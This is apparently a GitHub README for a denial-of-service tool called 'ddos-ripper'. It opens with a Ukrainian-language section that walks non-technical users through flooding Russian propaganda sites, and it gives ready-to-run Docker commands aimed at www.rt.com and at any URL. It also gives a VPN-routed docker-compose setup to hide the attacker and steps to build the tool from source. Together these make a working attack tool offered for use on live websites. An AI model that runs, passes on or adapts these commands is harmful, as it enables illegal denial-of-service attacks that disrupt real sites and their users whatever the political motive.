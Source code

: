 # Для нетехнічних котиків і киць
Інструкція як шкварити сайти хуйловської пропаганди:
1. Встановіть Docker Desktop за цим посиланням:
    https://docs.docker.com/desktop/windows/install/
2. Встановіть і увімкніть VPN
3. Запустіть термінал:
    http://xn--j1a5b.dp.ua/yak-vidkriti-komandnij-ryadok-v-windows-10/
4. Запустіть наступну команду, щоб шварити www.rt.com
    docker run --rm -it nitupkcuf/ddos-ripper:latest www.rt.com
5. Щоб призупинити зашквар і трохи провітрити хату натисніть Ctrl+C

Слава Україні! Смерть ворогам!

# Docker
1. Install Docker Desktop for your plaform:
  - [Windows](https://docs.docker.com/desktop/windows/install)
  - [Linux](https://docs.docker.com/engine/install/ubuntu/)
  - [Mac](https://docs.docker.com/desktop/mac/install)
2. Run command, put your actual url instead of www.abc.com :
```
docker run --rm -it nitupkcuf/ddos-ripper:latest www.abc.com
```

# Ripper+VPN
1. Install docker and docker-compose
2. Put openvpn config (extension must be .conf) into `vpn` subfolder
3. In docker-compose.yml put your actual url instead of `www.rt.com`
4. ```
docker compose up
```

# Run from CLI/sources
Python 3.10

```
git clone https://github.com/nanabanano/runner.git
cd runner
pip3 install pyinstaller
pip3 install -r requirements.txt

# mac
pyinstaller app.py --collect-all dns --add-data="headers.txt:." --add-data="DRipper.py:." --onefile

# win
pyinstaller --collect-all dns --add-data "headers.txt;." --add-data "DRipper.py;." --onefile app.py

```
see dist folder
